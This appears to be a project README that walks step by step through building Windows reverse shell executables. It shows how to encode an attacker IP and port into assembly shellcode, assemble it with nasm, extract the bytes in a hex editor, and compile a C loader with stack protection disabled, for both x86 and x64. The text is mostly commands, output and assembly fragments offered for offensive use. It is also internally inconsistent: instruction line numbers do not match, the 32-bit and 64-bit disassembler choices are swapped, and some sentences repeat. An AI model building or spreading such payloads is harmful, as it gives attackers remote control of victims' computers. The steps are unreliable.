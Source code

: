 # Dreg Shells Guide

## Dependecies

```bash
apt-get install gcc mingw-w64 nasm -y
```

## Apps used

- [010 Editor](https://www.sweetscape.com/010editor/)

## Reverse shell Assembly x86
---

Firts you will need to change the ip and the port in the shellcode, to do this you will be using the [genipport.sh](/genipport.sh).

In the ip line (line 24) and the port line (line 25) with your ip and your port. Then execute the script and the output it's going to be like the following: 
```bash
root {debian} $ ./genipport.sh
ip: 127.0.0.1
port: 4444
Reading package lists... Done
Building dependency tree... Done
Reading state information... Done
syslinux-utils is already the newest version (3:6.04~git20190206.bf6db5b4+dfsg1-3+b1).
0 upgraded, 0 newly installed, 0 to remove and 0 not upgraded.
converting IP....
converting: 7F000001
endian: 0100007F
IP converted: FEFFFF80
converting PORT....
converting: 115C
endian: 5C11
port converted: A3EE
```

You will be geting the "IP converted" and the "port converted" output and and you will have to put it with a 0x each of the outputs in the following lines of the shellcode.

```assembly
push dword 0x77D23CCC ; line 238
push word 0xA3EE ; line 240
```
And making the changes, this is how the two lines "with my output" would look like.
```assembly
push dword 0xFEFFFF80 ; line 223 
push word 0xA3EE ; line 225
```
The next thing we will do is compile the assembler file to an object file with the following command:
```bash
nasm -f win32 reverse_asm.asm -o reverse_shell.o
```
After compiling to an object file we will use the 010 editor and add the file to the editor we will look where the shellcode begins. How?

![Alt text](/images/v8YjDpT.png)

Here to know where it starts we will select a part and look for the beginning of the program before compiling.

```assembly
pushfd
```

To know if it agrees we will click on the tools section and then to dissembler

To know if it agrees we will click on the tools section and then dissembler. Then we will choose the section of X86(64-Bit) and click dissamble.

![Alt text](/images/BWJenLL.png)

And this panel will appear, and we will look in Value for the string that we mentioned before "pushfd".

![Alt text](/images/fCEEq3q.png)

From then on we can select everything since there will be no problem. When we have everything selected we will copy it as C code.

![Alt text](/images/mTFErYK.png)

When we have it copied, we will change the shellcode of the "reverse_c.c" file for the one we have in the clipboard including the function name throughout the code.

Then we will compile to an exe file with the following command and our reverse shell will be ready.

```bash
i686-w64-mingw32-gcc -fno-stack-protector -o test.exe test.c
```

---
## Reverse shell Assembly x64

Firts you will need to change the ip and the port in the shellcode, to do this you will be using the [genipport.sh](/genipport.sh).

In the ip line (line 24) and the port line (line 25) with your ip and your port. Then execute the script and the output it's going to be like the following: 
```bash
root {debian} $ ./genipport.sh
ip: 127.0.0.1
port: 4444
Reading package lists... Done
Building dependency tree... Done
Reading state information... Done
syslinux-utils is already the newest version (3:6.04~git20190206.bf6db5b4+dfsg1-3+b1).
0 upgraded, 0 newly installed, 0 to remove and 0 not upgraded.
converting IP....
converting: 7F000001
endian: 0100007F
IP converted: FEFFFF80
converting PORT....
converting: 115C
endian: 5C11
port converted: A3EE
```

You will be geting the "IP converted" and the "port converted" output and and you will have to put it with a 0x each of the outputs in the following lines of the shellcode.

```assembly
push dword 0x77D23CCC ; line 260
push word 0xA3EE ; line 264
```
And making the changes, this is how the two lines "with my output" would look like.
```assembly
push dword 0xFEFFFF80 ; line 260
push word 0xA3EE ; line 264
```
The next thing we will do is compile the assembler file to an object file with the following command:
```bash
nasm -f win64 reverse_asm.asm -o reverse_shell.o
```
After compiling to an object file we will use the 010 editor and add the file to the editor we will look where the shellcode begins. How?

![Alt text](/images/v8YjDpT.png)

Here to know where it starts we will select a part and look for the beginning of the program before compiling.

Here to know where it starts we will select a part and look for the beginning of the program before compiling.

```assembly
sub rsp, 0x30
```

To know if it agrees we will click on the tools section and then dissembler. Then we will choose the section of X86(32-Bit) and click dissamble.

![Alt text](/images/hTAv7CY.png)

And this panel will appear, and we will look in Value for the string that we mentioned before "sub rsp, 0x30".

![Alt text](/images/fCEEq3q.png)

From then on we can select everything since there will be no problem. When we have everything selected we will copy it as C code.

![Alt text](/images/mTFErYK.png)

When we have it copied, we will change the shellcode of the "reverse_c64.c" file for the one we have in the clipboard including the function name throughout the code.

Then we will compile to an exe file with the following command and our reverse shell will be ready.

```bash
x86_64-w64-mingw32-gcc -fno-stack-protector -o test.exe test.c
```
